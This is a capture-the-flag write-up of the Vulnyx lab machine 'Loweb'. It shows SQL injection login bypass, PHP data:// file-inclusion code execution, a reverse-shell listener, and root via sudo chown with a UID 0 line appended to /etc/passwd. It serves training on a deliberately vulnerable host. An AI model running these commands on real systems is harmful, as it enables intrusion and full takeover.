





# Loweb

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Loweb | Jackie0x17 | Low | Vulnyx |

**Summary:** Loweb is a deliberately broken web application that leaks its own vulnerabilities in a linear, escalating chain. The Apache default page hides a "library" application whose login form is vulnerable to SQL injection, allowing an attacker to bypass authentication entirely with a classic `' OR '1=1 --` payload after time based blind injection confirms the backend is MariaDB. Once authenticated as an administrator, the dashboard exposes a local file inclusion primitive through a `lang` parameter that accepts PHP wrappers. The attacker abuses this to read the PHP session file, then converts the file read into remote code execution using the `data://` wrapper, ultimately spawning a reverse shell as the www-data user. Internal enumeration reveals a world readable cron script in `/opt` that leaks plaintext credentials for the local user r3dh4ck. That user is granted passwordless sudo rights on `/usr/bin/chown`, a classic vector that lets the attacker change the owner of `/etc/passwd`, append a crafted root user entry with a known password hash, and authenticate directly as root to capture both flags.

---

## Reconnaissance

The engagement began with a full port scan using Nmap with default scripts and version detection against the target, 192.168.100.218. Only two services were exposed, both pointing to a classic Debian web server setup.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nmap -sC -sV -p- -T4 192.168.100.218             
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-09 05:53 +0700
Nmap scan report for 192.168.100.218 (192.168.100.218)
Host is up (0.0022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 65:bb:ae:ef:71:d4:b5:c5:8f:e7:ee:dc:0b:27:46:c2 (ECDSA)
|_  256 ea:c8:da:c8:92:71:d8:8e:08:47:c0:66:e0:57:46:49 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.68 seconds
```

1. The web server on port 80 presented the stock Apache2 Debian default page, a common decoy.
2. A directory brute force with feroxbuster uncovered a hidden application tree beneath `/library`, including a login page, an admin panel, and several static assets. The admin endpoints responded with 302 redirects back to the login page, indicating that authentication was enforced before any admin content could be accessed.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ feroxbuster -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,txt,html,js,css,env,bak,tar,zip
                                                                                         
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.100.218/
 🚩  In-Scope Url          │ 192.168.100.218
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt, html, js, css, env, bak, tar, zip]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       25l      127w    10359c http://192.168.100.218/icons/openlogo-75.png
200      GET      368l      933w    10701c http://192.168.100.218/
[>-------------------] - 1s       916/2205500 56m     found:2       errors:0      
301      GET        9l       28w      320c http://192.168.100.218/library => http://192.168.100.218/library/
200      GET      368l      933w    10701c http://192.168.100.218/index.html
200      GET       91l      224w     2043c http://192.168.100.218/library/style.css
301      GET        9l       28w      326c http://192.168.100.218/library/login => http://192.168.100.218/library/login/
200      GET        5l       15w      322c http://192.168.100.218/library/script.js
200      GET       29l       60w     1068c http://192.168.100.218/library/index.html
200      GET       24l       34w      439c http://192.168.100.218/library/login/script.js
200      GET       39l       57w      591c http://192.168.100.218/library/login/style.css
200      GET       49l      123w     2151c http://192.168.100.218/library/login/index.php
301      GET        9l       28w      326c http://192.168.100.218/library/admin => http://192.168.100.218/library/admin/
302      GET        0l        0w        0c http://192.168.100.218/library/admin/index.php => http://192.168.100.218/library/login/index.php
302      GET        1l        0w        1c http://192.168.100.218/library/admin/style.php => http://192.168.100.218/library/login/index.php
302      GET        0l        0w        0c http://192.168.100.218/library/admin/script.php => http://192.168.100.218/library/login/index.php
```

The login page rendered at `/library/login/index.php` was the front door to the whole application.



## Initial Access

### SQL Injection in the Login Form

1. The login form accepted a username and a password through a standard POST request carrying `application/x-www-form-urlencoded` data. The request was intercepted and saved to a file so that it could be replayed against the backend.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ cat r.txt      
POST /library/login/ HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 29
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=aoe61r3kmm24jk72r3m8tu0rv4
Host: 192.168.100.218
Origin: http://192.168.100.218
Referer: http://192.168.100.218/library/login/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36

username=admin&password=admin
```

2. The saved request was handed to sqlmap, which confirmed a time based blind injection in the `username` parameter and proceeded to enumerate the `library` database. The dump of the `users` table revealed two accounts, admin and r3dh4ck, both sharing the same bcrypt hash, which would take a very long time to crack.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ sqlmap -r r.txt --batch --dump -v 0                      
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.10.6#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:06:35 /2026-08-09/

sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1106 FROM (SELECT(SLEEP(5)))AHJb) AND 'zvSa'='zvSa&password=admin
---
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[06:06:35] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                               
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[06:08:41] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                      
Database: library
Table: users
[2 entries]
+----+---------------------+--------------------------------------------------------------+----------+
| id | email               | password                                                     | username |
+----+---------------------+--------------------------------------------------------------+----------+
| 1  | john@example.com    | $2y$10$AkhF2T9slTqNPbwh6eRbVeLr5XW8ZqWvJ/zFapZ7Y8ZK0G70Hxo3W | admin    |
| 2  | r3dh4ck@example.com | $2y$10$AkhF2T9slTqNPbwh6eRbVeLr5XW8ZqWvJ/zFapZ7Y8ZK0G70Hxo3W | r3dh4ck  |
+----+---------------------+--------------------------------------------------------------+--------------+

[*] ending @ 06:19:26 /2026-08-09/
```

3. Cracking the bcrypt hash would have taken an unreasonable amount of time, so the injection itself was leveraged for a full authentication bypass. Because the backend concatenated the raw input straight into the query, submitting the payload `' OR '1=1 --` for both username and password made the WHERE clause evaluate to true for every row, granting access to the admin panel without knowing a single password.



### Local File Inclusion to Remote Code Execution

1. After logging in, the `PHPSESSID` cookie value was captured, as it would be needed for every authenticated request. Fuzzing the admin dashboard for GET parameters against a static path revealed a `lang` parameter that the application reflected into a PHP `include` statement, a textbook local file inclusion primitive.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ ffuf -u "http://192.168.100.218/library/admin/index.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -b "PHPSESSID=aoe61r3kmm24jk72r3m8tu0rv4" -fs 7485

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
 
       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.100.218/library/admin/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Cookie: PHPSESSID=aoe61r3kmm24jk72r3m8tu0rv4
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7485
________________________________________________

lang                    [Status: 200, Size: 8597, Words: 2552, Lines: 268, Duration: 75ms]
```



2. Supplying `/etc/passwd` through the `lang` parameter returned the full contents of the file embedded inside the page, proving that PHP wrapper filters were honoured by the vulnerable include.



3. With file inclusion confirmed, the next step was to turn the read into execution. The `data://` wrapper was used to feed PHP code directly into the include, and a `cmd` parameter was chained on top to supply operating system commands. The result was a fully functional command execution as the `www-data` user.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ curl -b "PHPSESSID=$sess" -G "http://192.168.100.218/library/admin/index.php" --data-urlencode "lang=$payload" 
<!DOCTYPE html>
<html lang="en" >
...
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ curl -b "PHPSESSID=$sess" -G "http://192.168.100.218/library/admin/index.php?lang=$payload&cmd=id"           
<!DOCTYPE html>
...
</body>
</html>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@ 
```


4. A listener was opened on port 4444 and the `data://` payload was used to inject a reverse shell command. The shell connected back and was upgraded into a fully interactive terminal by spawning `/bin/bash` through the `script` utility, exporting the `TERM` and `SHELL` environment variables, and resizing the pty.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nc -lvnp 4444                                                                     
listening on [any] 4444 ...
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ curl -b "PHPSESSID=$sess" -G "http://192.168.100.218/library/admin/index.php" \                     
  --data-urlencode "lang=$payload" \
  --data-urlencode "cmd=$cmd"
```

```bash
connect to [172.20.131.21] from (UNKNOWN) [172.20.128.1] 57544
bash: cannot set terminal process group (581): Inappropriate ioctl for device
bash: no job control in this shell
www-data@loweb:/var/www/html/library/admin$ which script
which script
/usr/bin/script
www-data@loweb:/var/www/html/library/admin$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@loweb:/var/www/html/library/admin$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                               
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ stty raw -echo; fg                                   
[1]  + continued  nc -lvnp 4444

www-data@loweb:/var/www/html/library/admin$ export TERM=xterm
www-data@loweb:/var/www/html/library/admin$ export SHELL=/bin/bash
www-data@loweb:/var/www/html/library/admin$ stty rows 80 cols 150
```

## Privilege Escalation

### Lateral Movement to r3dh4ck

1. With a stable shell as `www-data`, the contents of `/opt` were inspected. A single executable script named `monitor.sh` stood out immediately.

```bash
www-data@loweb:/var/www/html/library/admin$ ls -la /opt
total 12
drwxr-xr-x  2 root root 4096 Mar 15  2025 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
-rwxr-xr-x  1 root root  974 Mar 15  2025 monitor.sh
www-data@loweb:/var/www/html/library/admin$ cat /opt/monitor.sh 
#!/bin/bash

LOGDIR="/var/log/monitor"
LOGFILE="$LOGDIR/system_monitor_$(date +%Y%m%d%H%M%S).log"

mkdir -p $LOGDIR

echo "=== Monitoring started: $(date) ===" >> $LOGFILE

echo ">> Open ports and associated processes:" >> $LOGFILE
ss -tulpn | grep LISTEN >> $LOGFILE 2>/dev/null

echo -e "\n>> Currently connected users:" >> $LOGFILE
who >> $LOGFILE

echo -e "\n>> System information:" >> $LOGFILE
echo "Hostname: $(hostname)" >> $LOGFILE
echo "Kernel version: $(uname -r)" >> $LOGFILE
echo "Uptime: $(uptime -p)" >> $LOGFILE

echo -e "\n>> Generating simulated credentials for audit:" >> $LOGFILE
SECRET_USER="r3dh4ck"
SECRET_PASS="contraseñaconÑjeje" # Change this password for the future
echo "User: SECRET_USER" >> $LOGFILE
echo "Password: SECRET_PASS" >> $LOGFILE

echo -e "\n>> Possible suspicious processes running:" >> $LOGFILE
ps aux | grep -i 'nc\|netcat\|ncat\|bash\|sh' | grep -v grep >> $LOGFILE

echo -e "\n=== Monitoring finished: $(date) ===" >> $LOGFILE
```

2. The script contained hardcoded credentials intended for a simulated audit, with the local user r3dh4ck and the password `contraseñaconÑjeje`. Those credentials were used to switch to the r3dh4ck account, confirming a valid lateral movement.

```bash
www-data@loweb:/var/www/html/library/admin$ su - r3dh4ck
Password: 
r3dh4ck@loweb:~$ id
uid=1000(r3dh4ck) gid=1000(r3dh4ck) groups=1000(r3dh4ck)
```

### Root via sudo chown

1. Checking the sudo privileges of the new user revealed a single entry, the ability to run `/usr/bin/chown` as root without a password.

```bash
r3dh4ck@loweb:~$ sudo -l
Matching Defaults entries for r3dh4ck on loweb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User r3dh4ck may run the following commands on loweb:
    (ALL) NOPASSWD: /usr/bin/chown
```

2. The classic `/etc/passwd` hijack was executed. First, ownership of `/etc/passwd` was transferred to r3dh4ck so the file could be edited.

```bash
r3dh4ck@loweb:~$ sudo chown r3dh4ck:r3dh4ck /etc/passwd
```

3. A password hash for the word `rooted` was generated with `openssl`, and a new entry named `r00t` with UID 0 and GID 0 was appended to `/etc/passwd`. A UID 0 entry means the kernel treats the account as a superuser when authenticating.

```bash
r3dh4ck@loweb:~$ openssl passwd -1 -salt xyz rooted
$1$xyz$txYmAcRyLmpCUI5OSYRFi1
r3dh4ck@loweb:~$ echo 'r00t:$1$xyz$txYmAcRyLmpCUI5OSYRFi1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

4. Switching to the newly minted root user completed the escalation, and both flags were retrieved in one shot.

```bash
r3dh4ck@loweb:~$ su - r00t
Password: 
root@loweb:~# su -
root@loweb:~# id
uid=0(root) gid=0(root) groups=0(root)
root@loweb:~# whoami
root
root@loweb:~# hostname
loweb
root@loweb:~# ls -la
total 32
drwx------  4 root root 4096 Mar 16  2025 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
lrwxrwxrwx  1 root root    9 Mar 15  2025 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 Mar 16  2025 .bashrc
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
lrwxrwxrwx  1 root root    9 Mar 15  2025 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-r--------  1 root root   33 Mar 15  2025 r00t.txt
-rw-r--r--  1 root root   66 Mar 15  2025 .selected_editor
drwx------  2 root root 4096 Mar 16  2025 .ssh
root@loweb:~# cat /root/r00t.txt /home/r3dh4ck/user.txt 
[REDACTED]
[REDACTED]
```

---

## Attack Chain Summary
1. **Reconnaissance**: A full port scan identified SSH and an Apache web server, and directory brute forcing exposed a hidden library application with a login form and an access controlled admin panel.
2. **Vulnerability Discovery**: sqlmap confirmed a time based blind SQL injection in the `username` parameter, and parameter fuzzing on the authenticated dashboard revealed a `lang` parameter that included files through PHP wrappers.
3. **Exploitation**: The login form was bypassed with an `' OR '1=1 --` payload, then the `data://` wrapper in the `lang` parameter converted the local file inclusion into remote code execution and delivered a reverse shell as `www-data`.
4. **Internal Enumeration**: A readable `/opt/monitor.sh` script leaked plaintext credentials for the r3dh4ck user, enabling lateral movement.
5. **Privilege Escalation**: r3dh4ck could run `/usr/bin/chown` as root without a password, so ownership of `/etc/passwd` was seized, a rogue UID 0 user was appended, and root was reached directly.
